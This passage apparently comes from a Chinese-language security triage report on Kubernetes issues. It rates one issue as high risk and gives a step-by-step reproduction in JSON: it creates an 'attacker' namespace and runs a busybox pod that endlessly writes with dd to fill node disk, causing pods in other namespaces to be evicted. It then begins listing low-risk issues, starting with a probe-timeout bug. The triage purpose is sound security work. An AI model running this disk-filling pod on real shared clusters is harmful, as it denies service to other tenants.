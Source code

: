 综合评分，该漏洞的CVSS评分为高（High）。因此，此Issue存在高安全风险。

**复现过程：**

```json
[
  {
    "cmd": "kubectl create ns attacker-namespace",
    "explain": "创建一个名为 attacker-namespace 的命名空间。"
  },
  {
    "cmd": "kubectl run attacker-pod -n attacker-namespace --image=busybox --restart=Never -- sh -c \"while true; do dd if=/dev/zero of=fillfile bs=10M count=100; done\"",
    "explain": "在 attacker-namespace 中创建一个名为 attacker-pod 的Pod，不断地向容器的可写层写入数据。"
  },
  {
    "cmd": "kubectl get pods -n attacker-namespace",
    "explain": "检查攻击者Pod的状态，确保其正在运行。"
  },
  {
    "cmd": "kubectl get nodes",
    "explain": "获取集群中所有节点的名称，以便后续查看节点状态。"
  },
  {
    "cmd": "kubectl describe node <NODE_NAME>",
    "explain": "查看指定节点的详细信息，监控磁盘压力情况（将 <NODE_NAME> 替换为实际的节点名称）。"
  },
  {
    "cmd": "kubectl get events --all-namespaces | grep 'Evicted'",
    "explain": "检查是否有其他命名空间的Pod被驱逐。"
  },
  {
    "cmd": "kubectl get pods -A --field-selector=status.phase=Failed",
    "explain": "获取所有状态为Failed的Pod，确认哪些Pod被驱逐。"
  }
]
```

---

# ⚠️ 存在低风险的 Issues (16 个)

## Issue #128408 liveness or readiness probes timeout does not work

- Issue 链接：[#128408](https://github.com/kubernetes/kubernetes/issues/128408)

### Issue 内容

#### What happened?

When executing livenessProbe exec command, timeoutSeconds does not work.
timeoutSeconds: 5
periodSeconds: 30
exec command: /opt/entrypoint.sh healthcheck ,healthcheck will request a url without timeout. When this URL does not respond, a liveness request is received approximately every 2 minutes.
